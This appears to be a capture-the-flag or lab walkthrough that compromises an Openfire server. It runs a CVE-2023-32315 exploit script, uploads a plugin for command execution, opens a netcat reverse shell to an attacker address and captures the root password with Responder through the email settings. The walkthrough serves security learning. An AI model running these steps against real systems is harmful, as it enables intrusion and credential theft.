
We have openfire.

Using this [exploit](https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT)
```
python3 CVE-2023-32315.py -u http://192.168.243.96:9090
```


We can login with `hugme:hugmeNOW`



uploading openfire-management-tool-plugin.jar file from https://github.com/miko550/CVE-2023-32315


Now in server->server settings->Management tool
Enter password `123`:

We have command execution.

Using payload `busybox nc 192.168.45.229 9090 -e bash`:


And listening using penelope:

We have a shell as openfire.

We can change admin password too:


We can go to email settings:

We can change the host and save. The root password is already filled.

Run responder:
```
sudo responder -I tun0 -A
```

Now send a test mail:


We get the root password:

Now we can switch to root with `su root`:

We are root :)